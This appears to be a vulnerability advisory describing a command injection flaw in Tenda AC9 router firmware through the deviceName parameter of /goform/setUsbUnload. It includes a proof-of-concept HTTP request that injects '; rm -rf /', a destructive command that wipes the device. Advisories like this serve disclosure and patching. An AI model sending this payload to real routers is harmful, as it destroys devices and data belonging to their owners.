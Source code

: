 # Tenda AC9 V1.0 V15.03.05.14_multi stack overflow vulnerability
## Affected Version
Tenda AC9 V1.0 V15.03.05.14_multi
## Vulnerability Description
In Tenda ac9 v1.0 routers with firmware version V15.03.05.14_multi, the deviceName parameter of route /goform/setUsbUnload has a Command Injection Vulnerability, which may lead to remote arbitrary code execution.
## Vulnerability Detail
The v2 returned by the sub_2B9FC function is passed to doSystemCmd as an argument, where v2 is the deviceName obtained from the request. doSystemCmd executes the command "cfm post netctrl 51? op=3,string_info=v2", where v2 is the deviceName obtained from the request, that is, the data provided by the user, and v2 is the deviceName passed in from the outside. If the deviceName is not strictly verified, an attacker can use it to insert malicious commands.
deviceName=";  When rm -rf /", the generated command becomes: "cfm post netctrl 51? op=3,string_info=;  rm -rf /", which causes the rm -rf/command to be executed, causing serious system damage.

![img](./img/setUsbUnload.png)

## Poc
```py
POST /goform/setUsbUnload HTTP/1.1
Host: 192.168.0.1
Connection: keep-alive
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36
Cookie: password=452b97084f53fd461f33687a27a21f4dpxatgb

deviceName="; rm -rf /
```
